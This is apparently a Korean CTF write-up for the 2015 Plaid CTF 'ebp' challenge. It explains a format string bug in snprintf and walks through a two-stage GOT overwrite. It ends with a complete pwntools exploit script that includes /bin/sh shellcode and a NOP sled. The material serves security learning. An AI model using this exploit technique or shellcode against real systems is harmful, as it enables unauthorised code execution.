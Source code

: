 ```yaml
---
title: "2015 Plaid CTF EBP"
date: 2020-1-27
ctf: Plaid CTF
layout: post
---
```


32비트 바이너리고 Partial RELRO밖에 안 걸려있다.

```
[*] '/vagrant/ctfs/ebp'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

메인에서 전역변수 buf에 입력받는다. 근데 snprintf가 사용되는데 buf에 포맷스트링 있으면 포맷스트링 버그를 일으킬 수 있다. 일단 전역변수로 입력받으니까 Double Staged Format String Bug로 익스해야할거다.

```c
int echo()
{
  make_response();
  puts(response);
  return fflush(stdout);
}

int make_response()
{
  return snprintf(response, 1024u, buf);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax

  while ( 1 )
  {
    result = fgets(buf, 1024, stdin);
    if ( !result )
      break;
    echo();
  }
  return result;
}
```

snprintf 실행하기 전에 스택을 보면 이렇게 되어있다. 

```
pwndbg> x/50wx $esp
0xffffd350:	0x0804a480	0x00000400	0x0804a080	0xf7fd51b0
0xffffd360:	0xf7fe77eb	0x00000000	0xffffd388	0x0804852c
0xffffd370:	0xffffd3a8	0xf7fee010	0xf7e6915b	0x00000000
0xffffd380:	0xf7fbd000	0xf7fbd000	0xffffd3a8	0x08048557
0xffffd390:	0x0804a080	0x00000400	0xf7fbd5a0	0x00000000
0xffffd3a0:	0xf7fbd000	0xf7fbd000	0x00000000	0xf7e23637
0xffffd3b0:	0x00000001	0xffffd444	0xffffd44c	0x00000000
0xffffd3c0:	0x00000000	0x00000000	0xf7fbd000	0xf7ffdc04
0xffffd3d0:	0xf7ffd000	0x00000000	0xf7fbd000	0xf7fbd000
0xffffd3e0:	0x00000000	0xaf9aa8a5	0x945626b5	0x00000000
0xffffd3f0:	0x00000000	0x00000000	0x00000001	0x08048400
0xffffd400:	0x00000000	0xf7fee010	0xf7fe8880	0xf7ffd000
```

0x0804a480는 response의 주소 0x0804a080는 buf의 주소다. 

익스는 0xffffd368을 보면 0xffffd388를 가르키고 있는 포인터다. 일단 0xffffd368를 puts@got로 덮으면 0xffffd388이 덮일거다. 그리고 puts@got주소를 buf+100으로 덮고 nop sled뒤에 shellcode 넣으면 puts실행될 때 쉘코드가 실행될거다.

> exploit.py

```python
from pwn import *

e = ELF('./ebp')
p = process('./ebp')

#shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'
shellcode = '\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80'
fflush_got = 0x0804a00c
fgets_got = 0x0804a010
puts_got = 0x0804a014
snprintf_got = 0x0804a020
buf = 0x0804A080

#payload = '%{}c%n'.format('134520852')
payload = "%{}c%4$n".format(e.got['puts'])
p.sendline(payload)

payload2 = '%{}c%12$n'.format(buf+100)
payload2 += '\x90'*300
payload2 += shellcode
p.sendline(payload2)

p.interactive()
```

